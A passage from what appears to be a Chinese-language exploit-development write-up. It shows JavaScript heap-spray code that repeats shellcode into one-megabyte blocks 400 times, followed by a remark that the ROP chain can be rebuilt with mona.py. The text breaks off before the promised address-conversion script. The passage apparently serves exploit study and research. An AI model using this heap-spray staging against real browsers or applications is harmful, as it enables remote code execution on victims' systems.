 </code><code class="python keyword">+</code> <code class="python plain">code</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python keyword">while</code> <code class="python plain">(shellcode.length &lt; </code><code class="python value">100000</code><code class="python plain">) shellcode </code><code class="python keyword">=</code> <code class="python plain">shellcode </code><code class="python keyword">+</code> <code class="python plain">shellcode;</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">var onemeg </code><code class="python keyword">=</code> <code class="python plain">shellcode.substr(</code><code class="python value">0</code><code class="python plain">, </code><code class="python value">64</code><code class="python keyword">*</code><code class="python value">1024</code><code class="python keyword">/</code><code class="python value">2</code><code class="python plain">);</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python keyword">for</code> <code class="python plain">(i</code><code class="python keyword">=</code><code class="python value">0</code><code class="python plain">; i&lt;</code><code class="python value">14</code><code class="python plain">; i</code><code class="python keyword">+</code><code class="python keyword">+</code><code class="python plain">) </code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">{</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">onemeg </code><code class="python keyword">+</code><code class="python keyword">=</code> <code class="python plain">shellcode.substr(</code><code class="python value">0</code><code class="python plain">, </code><code class="python value">64</code><code class="python keyword">*</code><code class="python value">1024</code><code class="python keyword">/</code><code class="python value">2</code><code class="python plain">);</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">}</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">onemeg </code><code class="python keyword">+</code><code class="python keyword">=</code> <code class="python plain">shellcode.substr(</code><code class="python value">0</code><code class="python plain">, (</code><code class="python value">64</code><code class="python keyword">*</code><code class="python value">1024</code><code class="python keyword">/</code><code class="python value">2</code><code class="python plain">)</code><code class="python keyword">-</code><code class="python plain">(</code><code class="python value">38</code><code class="python keyword">/</code><code class="python value">2</code><code class="python plain">));</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">var spray </code><code class="python keyword">=</code> <code class="python plain">new Array();</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python keyword">for</code> <code class="python plain">(i</code><code class="python keyword">=</code><code class="python value">0</code><code class="python plain">; i&lt;</code><code class="python value">400</code><code class="python plain">; i</code><code class="python keyword">+</code><code class="python keyword">+</code><code class="python plain">) </code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">{</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">spray[i] </code><code class="python keyword">=</code> <code class="python plain">onemeg.substr(</code><code class="python value">0</code><code class="python plain">, onemeg.length);</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">}</code><code class="python plain">}</code></td></tr></tbody></table>

其ROP链于笔者环境中并不适用，可用`mona.py`重新生成。转换为相对地址可使用如下脚本：
